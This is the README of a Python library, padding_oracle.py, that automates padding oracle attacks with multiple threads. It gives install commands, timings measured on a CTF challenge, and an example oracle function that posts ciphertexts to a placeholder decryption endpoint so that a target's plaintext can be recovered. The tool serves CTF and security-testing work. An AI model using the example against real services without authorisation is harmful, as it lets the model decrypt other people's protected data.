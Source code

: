 # padding_oracle.py

Extremely fast threaded [padding oracle](http://server.maojui.me/Crypto/Padding_oracle_attack/) automation script for Python 3.

## Install

Installing from PyPI:

```shell
pip3 install -U padding_oracle
```

Or, installing from GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Example

All you need is defining the **oracle function** to check whether the given cipher is correctly decrypted.

```python
from padding_oracle import *

import requests

# Create a requests.Session to enable connection pool
sess = requests.Session()

# Define a function to test if the cipher can be decrypted
def oracle(cipher):
    resp = sess.post('http://some-website.com/decrypt',
                     data={'cipher': base64_encode(cipher)}).text
    assert 'Good' in resp or 'Bad' in resp, 'Exception?'
    return 'Good' in resp


cipher = b'[______IV______][____Block1____][____Block2____]'


# DECRYPT THE CIPHER!!!
plaintext = padding_oracle(cipher,
                           block_size=16,
                           oracle=oracle,
                           num_threads=64)

```
